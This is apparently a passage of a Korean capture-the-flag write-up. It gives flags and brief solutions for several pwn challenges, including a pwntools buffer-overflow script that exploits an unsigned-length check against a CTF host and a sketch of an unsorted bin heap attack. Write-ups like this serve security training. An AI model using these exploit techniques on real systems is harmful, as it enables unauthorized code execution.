 


__플래그 : flag{alyac_static_key_bugbounty}__

주창이형 기분이 많이 좋은 것 같다.



## Pwn

### First Step (70)

A 쭉 박아서 버퍼 넘기면 플래그 준다.



__플래그 : flag{b0f_bof_bof_ffff_____}__



### NoBoF (100)

입력할 글자수 입력받는데 unsigned int형이어서 음수 박으면 쓰레기값 되서 BOF 가능하다.

```python
from pwn import *

p = remote('c2w2m2.com', 6665)

p.recv()
p.sendline('-9999999999999999999999999999999999')
p.recv()

payload = 'A' * 268 
payload += p32(0x080485b5)

p.sendline(payload)
p.interactive()
```



__플래그 : flag{int=>unsigned_is_danger}__



### babyuba (150)

1. malloc(500)
2. free()
3. Edit
4. check

와 같이 메뉴가 구성되어 있는데, check시 bss에 0으로 초기화된 전역 변수의 값을 바꾸면 쉘을 띄워준다.

malloc size가 500이므로 small bin이 할당되는데 Edit시 해당 index의 chunk가 free 상태인지 검사하지 않고 

​	값을 쓸 수 있게 해줘 fd와 bk가 조작 가능하다. 

따라서 unsorted bin attack으로 값을 main_arena+88로 바꿔주면 된다.
